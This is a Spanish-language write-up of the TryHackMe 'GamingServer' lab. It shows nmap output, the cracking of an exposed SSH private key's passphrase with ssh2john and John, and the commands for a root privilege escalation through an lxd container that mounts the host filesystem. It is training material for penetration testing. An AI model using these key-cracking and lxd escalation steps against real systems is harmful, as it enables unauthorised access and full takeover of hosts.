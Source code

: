 ```yaml
---
layout: single
title: Writeup THM - GamingServer
comments: true
excerpt: "La maquina GaminServer es una maquina linux - Easy, encontramos una pagina web donde encontramos en el directorio secret un archivo llamado secretKey que nos servira para crackear con ssh2john obteniendo el passphrase que nos permitira accediendo por ssh con dicha secretKey, escalamos privilegios a root ya que nuestro usuario john pertenece al grupo lxd."
date: 2022-02-10
classes: wide
header:
  teaser: /assets/images/2022-02-10-writeup-maquina-thm-gamingserver/Untitled.png
  teaser_home_page: true
categories:
  - TryHackMe
tags:
  - OSCP  
  - Hacking
  - Easy
  - ssh
  - id_rsa
  - ssh2john
  - john 
  - lxd
---
```


# GamingServer
<p align="center">
<img src="/assets/images/2022-02-10-writeup-maquina-thm-gamingserver/Untitled.png">
</p>

## Resumen
<div style="text-align: justify">
La maquina GaminServer es una maquina linux - Easy, encontramos una pagina web donde encontramos en el directorio secret un archivo llamado secretKey que nos servira para crackear con ssh2john obteniendo el passphrase que nos permitira accediendo por ssh con dicha secretKey, escalamos privilegios a root ya que nuestro usuario john pertenece al grupo lxd.
</div>

## Scan Nmap

```bash
# Nmap 7.92 scan initiated Wed Feb  9 16:56:28 2022 as: nmap -sC -sV -p22,80 -oN targeted -Pn -vvv 10.10.95.120
Nmap scan report for 10.10.79.255
Host is up, received user-set (0.19s latency).
Scanned at 2022-02-09 16:56:29 -05 for 14s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCrmafoLXloHrZgpBrYym3Lpsxyn7RI2PmwRwBsj1OqlqiGiD4wE11NQy3KE3Pllc/C0WgLBCAAe+qHh3VqfR7d8uv1MbWx1mvmVxK8l29UH1rNT4mFPI3Xa0xqTZn4Iu5RwXXuM4H9OzDglZas6RIm6Gv+sbD2zPdtvo9zDNj0BJClxxB/SugJFMJ+nYfYHXjQFq+p1xayfo3YIW8tUIXpcEQ2kp74buDmYcsxZBarAXDHNhsEHqVry9I854UWXXCdbHveoJqLV02BVOqN3VOw5e1OMTqRQuUvM5V4iKQIUptFCObpthUqv9HeC/l2EZzJENh+PmaRu14izwhK0mxL
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEaXrFDvKLfEOlKLu6Y8XLGdBuZ2h/sbRwrHtzsyudARPC9et/zwmVaAR9F/QATWM4oIDxpaLhA7yyh8S8m0UOg=
|   256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOLrnjg+MVLy+IxVoSmOkAtdmtSWG0JzsWVDV2XvNwrY
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: House of danak
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Feb  9 16:56:43 2022 -- 1 IP address (1 host up) scanned in 14.77 seconds
```

## Pagina web - Port 80

revisamos la pagina web, vemos que una pagina relacionado a un tipo de juego

![Untitled](/assets/images/2022-02-10-writeup-maquina-thm-gamingserver/Untitled%201.png)

si revisamos robos.txt vemos que existe un directorio uploads

![Untitled](/assets/images/2022-02-10-writeup-maquina-thm-gamingserver/Untitled%202.png)

si vamos a uploads, vemos que podemos acceder a

```bash
- dict.lst  -> diccionario de password
- manifesto.txt -> relato 
- meme.jpg -> imagen
```

![Untitled](/assets/images/2022-02-10-writeup-maquina-thm-gamingserver/Untitled%203.png)

tambien revisamos el directorio secret y que tenemos un archivo llamado secretKey

![Untitled](/assets/images/2022-02-10-writeup-maquina-thm-gamingserver/Untitled%204.png)

todo parece indicar que secretKey es un llave privada para conectarnos por ssh

![Untitled](/assets/images/2022-02-10-writeup-maquina-thm-gamingserver/Untitled%205.png)

guardamos secretkey como id_rsa e intentamos conectarnos por ssh pero lamentablemente nos pide passphrase

```bash
GamingServer # ❯ ssh -i id_rsa john@10.10.232.84
```

![Untitled](/assets/images/2022-02-10-writeup-maquina-thm-gamingserver/Untitled%206.png)

por lo tanto crackearemos con ssh2john y john the ripper para obtener el passphrase

```bash
GamingServer # ❯ ssh2john id_rsa > id_rsa.hash
GamingServer # ❯ john id_rsa.hash -wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 6 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (id_rsa)
1g 0:00:00:38 DONE (2022-02-09 18:26) 0.02626g/s 376719p/s 376719c/s 376719C/s     1990..*7¡Vamos!
Session completed
```

ahora que tenemos el passphrase que es letmein, nos conectamos por ssh

```bash
GamingServer # ❯ ssh -i id_rsa john@10.10.232.84
```

![Untitled](/assets/images/2022-02-10-writeup-maquina-thm-gamingserver/Untitled%207.png)

una vez conectados leeremos la flag del user.txt

![Untitled](/assets/images/2022-02-10-writeup-maquina-thm-gamingserver/Untitled%208.png)

## Escalacion de Privilegios - User Root

al ejecutar el comando id, vemos que pertenecemos al grupo lxd. Por lo tanto se me ocurre escalar por esta via

![Untitled](/assets/images/2022-02-10-writeup-maquina-thm-gamingserver/Untitled%209.png)

revisare un articulo de hacktricks 

```bash
https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation
```

asi que en mi maquina ejecutare dichos comandos

```bash
sudo su
#Install requirements
sudo apt update
sudo apt install -y golang-go debootstrap rsync gpg squashfs-tools
#Clone repo
sudo go get -d -v github.com/lxc/distrobuilder
#Make distrobuilder
cd $HOME/go/src/github.com/lxc/distrobuilder
make
#Prepare the creation of alpine
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
#Create the container
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8
```

el resultado de ejecutar dichos comandos seran los lxd.tar.xz y rootfs.squashfs

![Untitled](/assets/images/2022-02-10-writeup-maquina-thm-gamingserver/Untitled%2010.png)

dichos archivos lo subiremos a la maquina victima para nos situaremos en la carpeta de estos archivos y crearemos nuestro servidor web de python

```bash
alpine # ❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

![Untitled](/assets/images/2022-02-10-writeup-maquina-thm-gamingserver/Untitled%2011.png)

descargamos los archivos en la maquina victima

![Untitled](/assets/images/2022-02-10-writeup-maquina-thm-gamingserver/Untitled%2012.png)

agregamos una imagen

```bash
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
lxc image list #You can see your new imported image
```

![Untitled](/assets/images/2022-02-10-writeup-maquina-thm-gamingserver/Untitled%2013.png)

creamos un container y agregamos la ruta del root

```bash
lxc init alpine privesc -c security.privileged=true
lxc list #List containers

lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

ejecutamos el container

```bash
lxc start privesc
lxc exec privesc /bin/sh
[email protected]:~# cd /mnt/root #Here is where the filesystem is mounted
```

![Untitled](/assets/images/2022-02-10-writeup-maquina-thm-gamingserver/Untitled%2014.png)

gracias por leer este writeup, nos vemos AbelJM